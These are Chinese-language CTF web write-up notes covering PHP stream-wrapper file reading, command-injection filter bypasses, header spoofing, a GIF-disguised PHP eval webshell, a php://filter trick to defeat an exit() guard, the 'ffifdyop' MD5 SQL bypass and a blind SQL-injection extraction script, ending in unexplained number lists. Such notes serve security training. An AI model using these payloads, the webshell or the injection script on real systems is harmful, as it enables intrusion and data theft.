## PHP伪协议

- https://blog.csdn.net/qq_45521281/article/details/105533626

**php://**

- php://filter

访问输入输出流，有两个常用的子协议

- 1. `php://filter/resource=xxx文件名`  设计用来过滤筛选文件

- 2. `?file=php://filter/read=convert.base64-encode/resource=flag.php 文件名`

如果想要读取运行php文件的源码，可以先base64编码，再传入include函数，这样就不会被认为是php文件，不会执行，会输出文件的base64编码，再解码即可。

- php://input

咋post 中加入自己构造的代码



这个协议的利用方法是 将要执行的语法php代码写在post中提交，不用键与值的形式，只写代码即可。


- file://

- 与php:filter类似，访问本地文件，但是只能传入绝对路径

**[GXYCTF2019]Ping Ping Ping（RCE）**

> ls了一下，看看目录：



> 试一下cat index：


> 这里空格被过滤了

过滤空格了，可以用`${IFS}$`代替：

可能也过滤了`{}`，用`$IFS$1`代替：
payload：
`?ip=127.0.0.1;cat$IFS$1index.php`


一目了然过滤了啥，`flag字眼`也过滤了，`bash也没了`，不过sh没过滤：

`?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh`

`Y2F0IGZsYWcucGhw是cat flag.php的base64-encode`


也可以尝试 payload

`?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php`



F12 可见下面有 flag。


## 极客大挑战2019-http题解

查看网页源码，发现一个文件secret.php。



secret.php的内容如下：



页面要求必须从`https://www.Sycsecret.com`进入，使用`python添加headers访问即可`。


```PY
import requests
url = 'http://node3.buuoj.cn:25875/Secret.php'
headers={"Referer":"https://www.Sycsecret.com","Origin":"https://www.Sycsecret.com",}
headers['User-Agent'] = "Syclover"
headers['X-Forwarded-For'] = '127.0.0.1'
r = requests.get(url,headers=headers)
print(r.text)
```

结果显示`Please use "Syclover" browser。`

在headers里面继续添加 `User-Agent`

`headers['User-Agent'] = "Syclover"`

继续访问，得到`No!!! you can only read this locally!!!`

应该是要伪造IP，在headers里面添加X-Forwarded-For

`headers['X-Forwarded-For'] = '127.0.0.1'`


php - phtml马
```php
GIF89a? <script language="php">eval($_REQUEST[shell])</script>
```


## 绕过<?php exit(0);?>

```php
<?php
$content = '<?php exit(0);?>';
$content .= @$_POST['code'];
$filename = @$_POST['filename'];
if (isset($filename)){
file_put_contents($filename, $content);
}else{
echo "今天天气不错";
}
?>
```

- [php伪协议](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)

我们如果使用　　file=php://filter/write=convert.base64-decode　　来进行对file变量的处理，既以base64的编码来读。
因为<?php exit;?>中"<、?、;、>"等符号解码时都会被忽略，所以命令就变成了-->    “phpexit”。

将命令用base64编码，得到PD9waHAgZXZhbCgkX1BPU1RbJ2EnXSk7Pz4=，然后在原有的（phpexit）基础上添加上述base64代码，(****这里我们为了让其成为八位，所以任意在后面加一个a)得到

`phpexitaPD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==`

而传过去的值为

`code=aPD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==`

凑一下就得到flag
```
?code=PD9waHAgZXZhbCgkX1BPU1RbJ2EnXSk7Pz4=&filename=php://filter/write=convert.base64-decode/resource=1.php
```

### [BJDCTF2020]Easy MD5

**password='".md5($pass,true)."'**

`ffifdyop`，这个点的原理是 `ffifdyop` 这个字符串被 md5 哈希了之后会变成 `276f722736c95d99e921722cf9ed621c`，这个字符串前几位刚好是 ‘ or ‘6，
而 Mysql 刚好又会吧 hex 转成 ascii 解释，因此拼接之后的形式是`1select * from 'admin' where password='' or '6xxxxx'`

等价于 or 一个永真式，因此相当于万能密码，可以绕过md5()函数

**md5 bypass**

md5()或者sha1()之类的函数计算的是一个字符串的哈希值，对于数组则返回false，如果$a和$b都是数组则双双返回FALSE, 两个FALSE相等得以绕过


### 异或

这东西和那个堆叠注入一样，就见过一次，从此再也没用过，但这次就用到了。用它可以起到代替or的作用。
`0^(ascii(substr((select(flag)from(flag)),1,1))>1)`

但还有一些是没有用异或，用的是if，可if有局限性，在id为数字型时，可以直接 `select * from users where id=if(1=1,1,0)`，但如果id单引号字符型或双引号字符型，那就必须在if前加or或and。

就下来就时很容易的`bool注入`了
```py
import requests
import time

url = "http://be7c3bbe-f847-4c30-bfbd-baa005a54773.node3.buuoj.cn/index.php"
payload = {
	"id" : ""
}
result = ""
for i in range(1,100):
	l = 33
	r =130
	mid = (l+r)>>1
	while(l<r):
		payload["id"] = "0^" + "(ascii(substr((select(flag)from(flag)),{0},1))>{1})".format(i,mid)
		html = requests.post(url,data=payload)
		print(payload)
		if "Hello" in html.text:
			l = mid+1
		else:
			r = mid
		mid = (l+r)>>1
	if(chr(mid)==" "):
		break
	result = result + chr(mid)
	print(result)
print("flag: " ,result)
```

---

## 反序列化


42040
16310
53361
77640
49390
60961
72891
40081
81111
60670
41490
49011
92721
66901
61650
59851


1294	11293	302	false	false	460	
1839	11838	302	false	false	460	
1844	11843	302	false	false	460	
1858	11857	302	false	false	460	
5426	15425	302	false	false	460	
5428	15427	302	false	false	460	


